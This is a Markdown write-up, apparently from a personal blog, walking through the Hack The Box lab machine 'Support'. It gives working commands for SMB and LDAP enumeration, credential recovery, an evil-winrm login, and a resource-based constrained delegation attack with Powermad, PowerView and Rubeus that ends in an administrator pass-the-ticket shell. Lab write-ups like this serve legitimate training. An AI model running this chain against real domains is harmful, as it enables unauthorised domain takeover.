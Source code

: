 ```yaml
---
title: "Support Walkthrough(HTB)"
date: 2025-03-13
draft: true 
description: "Support is an Easy difficulty Windows machine that features an SMB share that allows anonymous authentication....."
tags: ["Easy", "Windows", "HTB", "Hacking", "Active Directory", "Walkthrough"]
---
```

## Reconnaissance #Windows #ActiveDirectory 
- Got multiple ports open
- ![[Pasted image 20241221142512.png]]
- As always we got LDAP, Netbios, SMB etc ports open
## Enumeration
- Done SMB enumeration `smbclient -L support.htb`
- ![[Pasted image 20241221143207.png]]
- We got a new directory called support-tools
- It seems we got guest login for smb
```
netexec smb support.htb -u sundeity -p ""
```
- We have access for two shares as guest
```
netexec smb support.htb -u sundeity -p "" --shares
```
- ![[Pasted image 20241221143552.png]]
- We got some tools inside the directory
- ![[Pasted image 20241221143832.png]]
- First let me get all the zips and then we can enumerate
- Got nothing from those files so enumerated ldap
```
nmap -n -sV --script "ldap* and not brute" -p 389 support.htb
```
- ![[Pasted image 20241221145020.png]]
- Then enumerated for users using netexec from smb
- Narrowed down the users to a list
```
cat users.txt | grep "SidTypeUser" | cut -d '\' -f 2 | cut -d '(' -f 1 >> users-smb.txt
```
- ![[Pasted image 20241221145402.png]]
- Stored the users in a file.
- Remember the file UsersInfo.exe.zip we have downloaded from SMB.
- On running it with wine we can see that it authenticate to ldap for retrieving the user we requested
- ![[Pasted image 20241221210746.png]]
- If we capture the traffic in wireshark we can get the password.
- ![[Pasted image 20241221210900.png]]
- As we can see it authenticating as user ldap with password
- Getting data for Bloodhound
- ![[Pasted image 20241221211206.png]]
- If we search the results of ldapsearch , particularly in info field which by the way looks like a password.
## Exploitation
```
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w '<password' -b "DC=support,DC=htb" | grep "info"
```
- ![[Pasted image 20241221212252.png]]
- We got this password from the user `support@support.htb`
- User support is member of three groups
- ![[Pasted image 20241221213052.png]]
- `crackmapexec` confirms the password for support user
```
crackmapexec winrm support.htb -u users-smb.txt -p <password>
```
- ![[Pasted image 20241221213417.png]]
- Now login with evil-winrm by the user Support and with their password
```
evil-winrm -u support -p '<password>' -i support.htb 
```
- Get the user flag
- ![[Pasted image 20241221213908.png]]
## Privilege Escalation
- If we see, user Support in a group called `Shared Support Accounts@Support.htb` . That group have Generic all permissions over Domain controller Itself.
- ![[Pasted image 20241222182550.png]]
- This privilege allows the trustee to manipulate the target object however they wish.
- We can abuse this by the help instructions in Bloodhound for this Privilege
- Here I am going to create a Fake computer under my control and Act as DC to get kerberos ticket
- **Tools Required**
	- PowersView.ps1
	- Powermad.ps1
	- Rubeus.exe(Pre build from [SharpCollection](https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.5_x64))
- **Step 1:**
	- Upload all the tools to target system, here to Support user's PC
	- `cd C:\\programdata`
	- `upload  PowersView.ps1`
	- `upload Powermad.ps1`
	- `upload Rubeus.exe`
	- ![[Pasted image 20241222185340.png]]
- **Step 2:**
	- Invoking all the scripts
```
. .\PowerView.ps1
```

```
. .\Powermad.ps1
```
- **Step 3-Creating a Fake Computer**
```
New-MachineAccount -MachineAccount <Computername> -Password $(ConvertTo-SecureString '<Password>' -AsPlainText -Force)
```
- We need SID of the computer that we created so we assign that value to a variable
```
$fakesid = Get-DomainComputer <Computername> | select -expand objectsid
```
- **Step 4-Configuring**
	- Now I’ll configure the DC to trust my fake computer to make authorization decisions on it’s behalf. These commands will create an ACL with the fake computer’s SID and assign that to the DC
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
```

```
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```

```
$SD.GetBinaryForm($SDBytes, 0)
```

```
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
- ![[Pasted image 20241222185607.png]]
- **Step 5-Auth as the Computer**
```
.\Rubeus.exe hash /password:<Password> /user:<ComputerName> /domain:support.htb
```
- Now copy the `rc4_hmac` hash  from the output
- ![[Pasted image 20241222185715.png]]

- **Step 6-Get the Kerberos Ticket**

```
.\Rubeus.exe s4u /user:<Computername>$ /rc4:<Hash> /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```
- Now ticket will be captured
- ![[Pasted image 20241222185806.png]]
- Copy the ticket for Administrator and put in a file `ticket.kirbi.b64`
- Remove all the whitespaces and unwanted line I have done this in vim using this command `:%s/\s\+//g`
- Now decode the base64 into a different file
```
base64 -d tick.kirbi.b64 > ticket.kirbi
```
- For linux systems have to convert the form `kirbi` to `ccahe` to pass the ticket
- Using `ticketConverter.py` finish this job
```
sudo /home/n_emperor/.local/share/pipx/venvs/netexec/bin/ticketConverter.py ticket.kirbi ticket.ccache
```
- ![[Pasted image 20241222190321.png]]
- Now **Pass the ticket for a shell**
```
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
- ![[Pasted image 20241222190446.png]]
- Root flag has been secured
- ![[Pasted image 20241222190524.png]]
